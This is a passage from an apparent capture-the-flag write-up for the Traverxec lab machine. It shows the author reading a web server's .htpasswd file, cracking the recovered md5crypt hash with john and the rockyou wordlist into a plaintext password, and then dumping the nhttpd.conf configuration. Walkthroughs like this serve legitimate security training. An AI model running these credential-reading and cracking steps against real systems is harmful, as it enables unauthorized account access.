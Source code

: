 We display the content of the `.htpasswd` file and found a hash.

    :::text
    cat /var/nostromo//conf/.htpasswd
    david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

We load it into john an crack it with the rockyou dictionary. The password is
"Nowonly4me".

    :::text
    john hash -w=rockyou.txt
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Nowonly4me       (david)

Let us take a closer look at the `nhttpd.conf` file.

    :::text
    cat /var/nostromo/conf/nhttpd.conf
    # MAIN [MANDATORY]

    servername		traverxec.htb
    serverlisten		*
    serveradmin		david@traverxec.htb
    serverroot		/var/nostromo
    servermimes		conf/mimes
    docroot			/var/nostromo/htdocs
    docindex		index.html

    # LOGS [OPTIONAL]

    lopid			logs/nhttpd.pid

    # SETUID [RECOMMENDED]

    user			www-data

    # BASIC AUTHENTICATION [OPTIONAL]

    htaccess		.htaccess
    htpasswd		/var/nostromo/conf/.htpasswd

    # ALIASES [OPTIONAL]

    /icons			/var/nostromo/icons

    # HOMEDIRS [OPTIONAL]
